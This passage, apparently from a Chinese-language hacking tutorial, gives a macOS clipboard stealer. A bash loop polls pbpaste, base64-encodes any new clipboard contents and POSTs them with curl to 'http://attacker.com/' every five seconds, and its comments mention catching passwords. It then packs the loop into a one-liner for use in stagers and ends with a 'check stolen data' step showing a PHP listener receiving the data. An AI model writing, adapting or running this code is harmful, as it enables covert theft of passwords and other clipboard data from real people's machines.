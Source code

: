        # A `p` to store the encoded clipboard contents. The
        # contents must be encoded before sending to the
        # attacker's server to prevent it from breaking the
        # proceeding curl command.
        p="$(echo $(pbpaste) | base64)"

        # Curl takes the encoded string and delivers it to
        # the attacker's server via POST request.
        curl --data "$p" -X POST 'http://attacker.com/'

        # The `pbpaste_last` variable is updated. This variable
        # is evaluated in the following loop.
        pbpaste_last="$(pbpaste)"

        # Delay for 5 seconds before checking the clipboard
        # for new contents. Decreasing this value will cause
        # the script to evaluate the clipboard more frequently,
        # but will have a negative impact on the MacBook's
        # CPU. Increasing the value may cause the script to
        # miss a valuable password. Adjust as needed.
        sleep 5
    fi
done</code></pre>
  <p class="graf graf--p">
   将脚本压缩到一行以使其方便地适合各种类型的 stager。
  </p>
  <pre class="graf graf--pre"><code>while true; do if [[ "$(pbpaste)" != "$pbpaste_last" ]]; then p="$(echo $(pbpaste) | base64)"; curl --data "$p" -X POST 'http://attacker.com/' &amp;&amp; pbpaste_last="$(pbpaste)"; sleep 5; fi; done</code></pre>
  <h3 class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    步骤3：检查被窃取的数据
   </strong>
  </h3>
  <p class="graf graf--p">
   当PHP服务器接收到剪贴板数据时，它将显示数据的来源（IP地址）以及日期和时间。按 Ctrl+c 键停止PHP服务器。
  </p>
  <pre class="graf graf--pre"><code class="markup--code markup--pre-code">PHP 7.0.33-0+deb9u3 Development Server started at Sun Jun  9 08:38:55 2019
Listening on http://0.0.0.0:80
Document root is /root/phpServer
Press Ctrl-C to quit.
